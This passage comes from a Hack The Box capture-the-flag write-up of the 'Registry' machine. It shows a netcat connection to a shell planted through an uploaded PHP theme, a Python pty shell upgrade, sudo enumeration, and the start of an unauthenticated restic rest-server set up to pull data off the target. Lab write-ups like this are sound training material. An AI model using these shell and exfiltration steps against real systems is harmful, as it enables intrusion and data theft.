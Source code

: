 ```
**NOTE:** From testing, it's worth noting that outbound communication is restricted. Let's keep this in mind.

After adding the php file extension to in the main configuration, as explained above, and uploading the rce2.php file as a theme to then load it in the browser, let's quickly run netcat to registry.htb on port TCP4444 in a **NEW** terminal windows and try to connect.

When connecting:

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ nc -v registry.htb 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.10.159:4444.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/html/bolt/theme
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bolt:~/html/bolt/theme$ 
```

Let's proceed run *sudo -l* to check on what we can run as *sudo*:

```
www-data@bolt:~/html/bolt/theme$ sudo -l
sudo -l
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
www-data@bolt:~/html/bolt/theme$ 
```


## Data Exfiltration

Something else we need to look at, restic for backups. From the sudo permissions *www-data* user has, we see we can run anything through restic to ANY rest repository (a remote restic backup server):

Command available as sudo:

```/usr/bin/restic backup -r rest*```

While looking into this, we found out we must set a restic server locally in Kali and initialize the repository (see the resources section).

This whole process tells me one way we can approach this is by "exfiltrating data" from registry.htb. We can't do anything else here other than running the restic backup command on anything, as explained above.

Let's setup the restic server (*rest-server*) in a separate terminal window, locally:

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ rest-server --listen 0.0.0.0:8000 --path /home/kali/Documents/HTB-Labs/Registry --no-auth
Data directory: /home/kali/Documents/HTB-Labs/Registry
Authentication disabled
Private repositories disabled
Starting server on 0.0.0.0:8000
